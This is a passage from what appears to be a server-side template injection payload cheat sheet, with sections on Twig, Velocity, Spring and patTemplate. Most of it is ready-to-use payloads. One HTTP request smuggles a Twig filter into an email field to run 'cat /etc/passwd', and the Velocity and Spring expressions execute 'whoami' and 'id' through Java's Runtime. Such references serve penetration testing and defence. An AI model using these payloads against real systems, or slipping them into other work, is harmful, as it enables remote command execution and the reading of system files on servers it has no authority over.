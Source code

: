 ```python
FILENAME{% set var = dump(_context)[OFFSET:LENGTH] %} {{ include(var) }}
```

Example with an email passing FILTER_VALIDATE_EMAIL PHP.

```powershell
POST /subscribe?0=cat+/etc/passwd HTTP/1.1
email="{{app.request.query.filter(0,0,1024,{'options':'system'})}}"@attacker.tld
```

---

## Java - Velocity

[Official website](https://velocity.apache.org/engine/1.7/user-guide.html)
> Velocity is a Java-based template engine. It permits web page designers to reference methods defined in Java code.

```python
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end
```

---


## Java - Spring

```python
*{7*7}
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('id').getInputStream())}
```

---

## patTemplate

> [patTemplate](https://github.com/wernerwa/pat-template) non-compiling PHP templating engine, that uses XML tags to divide a document into different parts

```xml
<patTemplate:tmpl name="page">
  This is the main page.
  <patTemplate:tmpl name="foo">
    It contains another template.
  </patTemplate:tmpl>
  <patTemplate:tmpl name="hello">
    Hello {NAME}.<br/>
  </patTemplate:tmpl>
</patTemplate:tmpl>
```

---